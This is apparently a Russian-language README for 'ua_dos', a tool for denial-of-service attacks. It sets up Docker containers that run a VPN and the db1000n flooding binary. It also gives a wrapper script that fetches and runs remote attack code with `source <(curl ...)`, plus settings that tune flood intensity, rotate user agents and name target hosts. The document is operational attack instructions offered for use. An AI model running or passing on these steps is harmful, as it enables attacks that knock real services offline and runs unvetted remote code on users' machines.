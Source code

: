 # ua_dos
## Docker
Внутри докера запускается pptp vpn соединение и бинарник db1000n проекта https://github.com/Arriven/db1000n.
Файлы конфигурации pptp размещаются в директории: `ansible/confign/files/vpn*` и файл паролей `ansible/confign/files/chap-secrets`.
При сборке image они забираются внутрь.

Собирается image командой:
```
docker image build --force-rm -t ua_dos:0.1 .
```
После чего нужно создать network ipvlan типа:
```
docker network  create -d ipvlan --subnet=192.168.0.0/24 -o parent=wlo1 gwnet
```
Здесь `192.168.0.0/24` - сеть, которую раздает wifi роутер (С помощью которой хостовая машина подключена к интернету); `wlo1` - название wifi интерфейса в ноутбуке (На котором выше описаная сеть от роутера); `gwnet` - название новосозданной сети docker.
Эту информацию можно посмотреть в выводе команды `ifconfig` на хостовой машине (В данном случае ноутбук).

Запуск контейнера можно осуществлять двумя способами:
 1. В интерактивном режиме:
```
docker run --privileged --net=gwnet --ip 192.168.0.2 -it ua_dos:0.1 vpn1
```
 2. В режиме демона:
```
docker run --privileged --net=gwnet --ip 192.168.0.3 -d ua_dos:0.1 vpn1
```
Где `vpn1` - название vpn подключения, которое будет инициировано при запуске контейнера. `--ip 192.168.0.3` - IP адрес который будет присвоек запускаемому контейнеру (Должен быть из ранее созданной сети `--subnet=192.168.0.0/24`)
Настроить проброс ssh пока не получилось.

## Legacy
Атака `ntct` заброшена, с `curl-atack` можно работать.

1. Создай файл с любым названием *(Например: "curl-atack")*.
2. Запиши в файл две строки:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Сделай файл исполняемым, выполнив команду:
```
chmod +x "название файла"
(Например: chmod +x curl-atack)
```
4. Запусти файл:
```
./"название файла"
(Например: ./curl atack)
```
Загрузка таргетов пошла, через несколько секунд отобразится информация, которая будет обновляться.

Для остановки на клавиатуре зажать `Ctrl+C`. При этом завершаться **ВСЕ** процессы curl запущенные в операционной системе!

Если хочешь переопределить параметры, для увеличения/уменьшения интенсивности и увеличения/уменьшения нагрузки на оборудование ...

1. Создай файл `curl-atack-env.txt`
2. Запиши в него следующие строки:
```
rcount=$((RANDOM%10+7)) # количетво итераций, после которого принудительно завершаются процессы curl
sq1=$((RANDOM%3+1)) # количество параллельно выполняемых циклов
sq2=$((RANDOM%3+2)) # количество прогонов в каждом из параллельных циклов (1 итерация)
t1=$((RANDOM%7+7)) # таймают перед принудительным завершением процессов curl)
t2=$((RANDOM%2+1)) # таймаут(скорость) запуска проходов в параллельно выполняемых циклах
t3=$((RANDOM%3+1)) # таймаут после завершения всех проходов в параллельных циклах
t4='15' # таймаут автоматического непрерывного завершения процессов curl в каждом проходе

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Меняй их по вкусу. Сюда же можно вписать свои таргеты в виде задания переменных:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
